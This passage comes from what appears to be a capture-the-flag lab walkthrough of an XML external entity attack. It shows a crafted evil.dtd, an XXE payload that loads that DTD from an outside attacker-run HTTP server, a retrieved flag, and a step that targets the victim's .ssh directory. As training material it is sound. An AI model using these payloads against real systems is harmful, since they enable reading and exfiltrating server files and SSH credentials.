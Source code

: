 

Open the listing.html file in the browser:

URL:
```
file:///root/listing.html
```


Notice there are 2 entries: **.ssh/** and **flag1**.

Lets fetch these in the subsequent steps.

> [Note] The other internal port open on the machine won't return any information. U r encouraged to interact with it by modifying the
evil.dtd file to contain the IP and port on which that service is running.

Step 8: Retrieve the first flag via XXE.

Modify the evil.dtd file to fetch the contents of file flag1:
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888/flag1">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```


Start a Python-based HTTP server on port 8080:

Command:
```bash
python3 -m http.server 8080
```


Send the same XXE payload we sent in the last step:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```


The contents of flag1 file are retrieved:
```
Flag 1: 5f1210be00b4b8dfecba7b56181d905c
```

Head back to the terminal running the Python-based HTTP server:



Notice there was a request from the target machine to fetch the evil.dtd file.

Step 9: Fetch the contents of the .ssh directory.

Modify the evil.dtd file to fetch the contents of .ssh directory:
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888/.ssh/">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```
